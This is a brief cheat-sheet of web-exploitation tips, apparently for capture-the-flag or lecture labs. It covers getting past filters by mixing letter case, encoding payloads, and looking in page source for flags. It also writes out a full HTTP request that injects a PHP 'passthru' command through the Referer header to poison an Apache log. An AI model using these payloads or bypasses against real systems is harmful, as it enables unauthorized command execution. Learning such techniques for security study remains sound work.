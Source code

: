 # General Tips

---

Modify your payloads slightly to bypass parsers / filters.
* Example: A filter that will reject `file:///` or `<script>` but accept `FilE:///` or `<ScRipT>`

---

Encode your payload: i.e. base64 or URL-encode

---

Look in source code:
* i.e. `Inspect -> View Source` to find flags. They might be hiding there as a comment etc.

---

HTTP Request Header Injection:
* If your payloads don't work as input to a form, url param etc. due to encoding/escaping then try inject into HTTP headers:
* Example: _Command Injection via. PHP log files_ | Payload: `<?php passthru('ls -la');?>`
``` HTML
GET /?q=/var/log/apache2/access.log HTTP/1.1
Host: logfile.lecture.ns.agency
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.181 Safari/537.36
Referer: <?php passthru('ls -la');?>
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en;q=0.9,en-US;q=0.8,en-AU;q=0.7
Connection: close
```

---

